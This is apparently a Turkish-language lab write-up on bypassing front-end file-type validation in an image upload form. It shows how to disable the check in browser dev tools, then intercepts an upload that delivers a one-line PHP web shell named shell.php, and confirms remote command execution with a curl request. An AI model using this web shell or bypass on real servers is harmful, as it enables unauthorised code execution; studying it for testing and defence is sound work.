

# Front-End Validation

## Scenario

Resim dosyası yüklemeye izin veren bir web uygulamasını ele alalım:


Uygulama, sadece resim dosyası yüklemeye izin veriyor:



Dosya uzantısı kontrolü, onSubmit üzerinde validate() fonksiyonu ile sağlanıyor:

```html title="index.php" linenums="10" hl_lines="7"
<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your profile image</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}">
        <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".gif,.jpg,.png">
        
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>
```

Fonksiyona ulaşmak için aşağıda verilen yolu takip et:

* Open application menu
* More Tools
* Web Developer Tools
* Debugger
* Search
* Find in files: validate()

```javascript title="script.js" linenums="7" hl_lines="6-7 11-12"
function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'gif' && extension !== 'jpg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}
```

## Disabling Front-End Validation

```html title="index.php" linenums="10" hl_lines="7"
<body>
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
  <script src="./script.js"></script>
  <div>
    <h1>Update your profile image</h1>
    <center>
      <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="upload()">
        <input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".gif,.jpg,.png">
        
        <input type="submit" value="Upload" id="submit">
      </form>
      <br>
      <h2 id="error_message"></h2>
    </center>
  </div>
</body>
```

## Bypassing Front-End Validation

```http title="Request" hl_lines="17 21"
POST /upload.php HTTP/1.1
Host: 94.237.61.82:47264
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary98e00fb8aba15afcfd22587a81d228ab
Content-Length: 218
Origin: http://94.237.61.82:47264
Sec-GPC: 1
Connection: keep-alive
Referer: http://94.237.61.82:47264/
Priority: u=0

------geckoformboundary98e00fb8aba15afcfd22587a81d228ab
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/png


<?php system($_GET["cmd"]); ?>

------geckoformboundary98e00fb8aba15afcfd22587a81d228ab--
```

## RCE

```sh
my@attack:~$ curl -s 'http://94.237.61.82:47264/profile_images/shell.php?cmd=id'
```

```output title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
